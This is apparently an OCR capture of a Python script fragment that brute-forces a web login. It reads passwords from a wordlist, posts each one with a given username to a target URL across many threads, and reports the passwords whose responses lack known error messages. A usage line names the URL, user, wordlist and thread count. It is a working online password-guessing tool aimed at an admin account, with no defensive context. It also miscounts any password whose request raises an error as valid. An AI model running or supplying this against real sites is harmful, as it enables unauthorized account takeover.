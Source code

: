 ```python
 'username': user,
 'password': password
 }

 try:
 response = requests.post(url, headers=headers, data=data, allow_redirects=True)
 if not any(error in response.text for error in invalid_errors):
 with lock:
 print(f"Got VALID password: {password}")
 valid_passwords.append(password)
 else:
 invalid_passwords.append(password)

 except requests.RequestException as e:
 valid_passwords.append(password)
 print(f"Error checking password for {user} and {password}")


def enumerate_admin_password(WORDLIST):
 threads = []
 with open(WORDLIST, 'r', encoding='latin-1') as f:
 passwords = f.readlines()
 try:
 for password in tqdm(passwords, desc=f"Bruteforcing...{user}", unit=" passwords"):
 password = password.strip() # Remove any leading/trailing whitespace
 if password:
 thread = threading.Thread(target=check_user_password, args=(url, user, password))
 threads.append(thread)
 thread.start()

 if len(threads) >= THREAD_COUNT:
 for t in threads:
 t.join()
 threads = []

 for t in threads:
 t.join()

 except KeyboardInterrupt:
 print("\nExiting program...")
 sys.exit(0)


if __name__ == "__main__":
 if len(sys.argv) != 5:
 print("Usage: python3 script.py <URL> <USER> <WORDLIST> <THREADS>")
 sys.exit(1)

 url = sys.argv[1]
 user = sys.argv[2].strip()
 WORDLIST = sys.argv[3]
 THREAD_COUNT = int(sys.argv[4].strip())
 enumerate_admin_password(WORDLIST)
 print(f"The total of invalid passwords for user {user} are: {len(invalid_passwords)}")
 print(f"The total of valid passwords for user {user} are: {len(valid_passwords)}")
 print(f"\nThese are the valid password for user {user}: {valid_passwords}")

```
